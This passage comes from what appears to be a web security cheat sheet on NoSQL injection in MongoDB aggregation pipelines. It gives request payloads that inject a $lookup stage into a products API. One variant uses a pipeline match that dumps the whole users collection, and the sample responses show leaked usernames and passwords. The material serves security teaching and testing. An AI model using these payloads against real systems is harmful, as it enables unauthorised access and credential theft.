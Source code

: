 [{
  "$lookup": {
<strong>    "from": "users",
</strong>    "localField": "_id",
    "foreignField": "_id",
    "as": "leak"
  }
}]
</code></pre>
{% endtab %}

{% tab title="Response" %}
<pre class="language-json"><code class="lang-json">HTTP/1.1 200 OK
...

[
  {
    "_id": 2,
    "name": "Second product",
    "price": "1.99",
    "instock": false,
<strong>    "leak": [{ "_id": 2, "username": "user", "password": "hunter2" }]
</strong>  },
  {
    "_id": 1,
    "name": "First product",
    "price": "2.99",
    "instock": true,
<strong>    "leak": [{ "_id": 1, "username": "admin", "password": "P@ssw0rd"}]
</strong>  }
]
</code></pre>

Notice the leak happens when the `_id` matches, because we set our `localField` and `foreignField` to this in the injection
{% endtab %}
{% endtabs %}

The above method requires the collections to have a key in common, which is not always the case. However, there is another more advanced method to JOIN on any condition, using the `"pipeline"` key. This allows you to write another custom query where you can match anything, like `_id` not being empty in the new collection. In the leak, it will now contain every document in the collection at once:

{% tabs %}
{% tab title="Request" %}
```json
POST /api/products HTTP/1.1
Content-Type: application/json
...

[{
  "$lookup": {
    "from": "users",
    "pipeline": [{ "$match": { "_id" : {"$ne": ""}  } }],
    "as": "leak"
  }
}]
```
{% endtab %}

